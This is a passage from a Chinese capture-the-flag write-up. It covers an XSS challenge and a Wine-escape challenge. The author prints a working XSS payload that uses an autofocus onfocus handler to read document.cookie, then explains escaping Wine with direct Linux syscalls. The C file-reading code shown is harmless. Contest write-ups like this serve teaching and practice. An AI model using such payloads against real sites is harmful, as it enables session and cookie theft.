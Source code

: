 ![img](assets/5.png)

审计了一下前端代码，发现这两个地方直接做的 HTML 拼接，那都有注入点。fuzz 了一下得到一个可行的 payload：

```plain
<a href="x" onfocus="document.querySelector('#greeting').textContent=document.cookie;" autofocus="">xss</a>:123
```

转成 base64，encoding 完了拼一下链接，交了就过了。

## 杯窗鹅影

### flag1

拉了个镜像，随便写了个读文件的代码，编译完交了就过了……

```c
#include <stdio.h>

int main() {
  FILE *f = fopen("/flag1", "r");

  int c = fgetc(f);
  while (c != EOF) {
    putchar(c);
    c = fgetc(f);
  }
  fclose(f);
}
```

### flag2

Wine 本身并不是搞了个 sandbox 或者 vm 之类的东西，而是相当于当你调用 Win32api 的时候，link 到的库是 Wine 的库，Wine 提供了这些函数在 Linux 下的等价（或者说勉强能用）的实现，然后直接跑，而至于原生 Linux 函数就直接 passthrough 了。

虽然这些我都知道，但是做的非常磕绊。因为第一问给了我一个错觉，以为直接 syscall 就行了，尝试直接 `execve`，发现跑不起来，然后尝试了一众 Windows API，比如 `CreateProcess`, `ShellExecute` 等等，都找不到资源，然后根据第一问的 flag 尝试去遍历文件夹，还把运行环境给摸透了，但是最后就是跑不起来，一度让我怀疑自己是不是方向走远了。

最后翻了翻去年自己的题解找灵感，发现好像还可以试试汇编直接 call syscall，又把 x86 syscall 表翻了出来，照着抄了下就过了……
